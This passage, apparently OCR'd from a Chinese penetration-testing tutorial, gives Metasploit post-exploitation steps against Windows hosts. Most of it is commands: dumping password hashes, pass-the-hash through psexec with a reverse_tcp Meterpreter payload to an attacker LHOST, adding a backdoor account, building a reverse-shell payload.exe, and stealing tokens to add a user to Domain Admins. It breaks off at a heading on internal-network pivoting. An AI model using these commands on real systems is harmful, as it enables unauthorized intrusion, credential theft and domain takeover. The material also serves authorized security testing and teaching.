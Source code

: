 获取系统账号密码：

```
meterpreter> use priv
meterpreter> run post/windows/gather/hashdump
```

当获取到密码的hash之后无法破解出明文密码且无法直接使用hash登陆，需要使用pass-the-hash技术：

```
msf> use windows/smb/psexec
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.111
set LPORT 443
set RHOST 192.168.1.130
set SMBPass aad3b435b51404eeaad3b435b51404ee:b75989f65d1e04af7625ed712ac36c29
exploit
```

获取到系统权限后我们可以新建一个普通账号，然后使用此账号执行我们的后门：

在目标机器上执行：`net uaer hacker pass /add`

本地生成一个后门程序：

```
msfpayload windows/meterpreter/reverse_tcp
LHOST=192.168.1.111 LPORT=443 X >payload.exe
```

将payload.exe拷贝到目标机器然后使用新建立的账号执行,本地执行端口监听，等待来自目标机器连接：

```
msfcli multi/handler PAYLOAD=windows/meterpreter/reverse_tcp
LHOST=192.168.1.111 LPORT=443
use priv
getsystem
getuid
```

至此取得SYSTEM权限


### 2、令牌模拟：
当有域控账户登陆至服务器时可使用令牌模拟进行渗透取得域控权限，之后登陆其他机器时不需要登陆密码。

```
meterpreter> ps  # 查看目标机器进程，找出域控账户运行的进程ID，假如发现PID为380
meterpreter> steal_token 380
#有时ps命令列出的进程中可能不存在域控账户的进程，此时使用incognito模块查看可用token：
meterpreter> use incognito
meterpreter> list_tokens –u  #列出可用token，假如找到域控token
meterpreter> impersonate_token SNEAKS.IN\\ihazdomainadmin
meterpreter> add_user hacker password –h 192.168.1.50 #在域控主机上添加账户
meterpreter> add_group_user “Domain Admins” hacker –h 192.168.1.50  #将账户添加至域管理员组
```

### 3、内网渗透：
当取得同网段内一台主机的权限后可以进一步渗透网内其他主机：
